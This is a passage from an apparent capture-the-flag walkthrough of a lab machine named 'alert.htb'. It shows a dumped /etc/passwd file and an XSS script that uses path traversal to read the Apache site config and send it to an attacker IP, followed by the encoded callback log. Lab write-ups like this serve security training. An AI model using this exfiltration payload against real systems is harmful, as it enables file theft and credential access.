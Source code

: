 ```bash
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
```

Looking at the HTTP responses from the enumeration phase, we could tell that the server is running Apache. We also gathered that `statistics.alert.htb` was using Basic Authentication. 

Googling for `Apache Basic Auth` resulted in this [article](https://www.digitalocean.com/community/tutorials/how-to-set-up-password-authentication-with-apache-on-ubuntu-14-04). It tells us that we can configure the Apache Password Authentication using `/etc/apache2/sites-enabled/000-default.conf`.

Lets try to get this file.

```bash
<script>
fetch("http://alert.htb/messages.php?file=../../../../etc/apache2/sites-enabled/000-default.conf")
    .then(response => response.text())
    .then(data => {
    fetch("http://10.10.14.9/?shiro=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

Repeat the exploit steps above to get the call back.

```bash
10.10.11.44 - "GET /?shiro=%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```
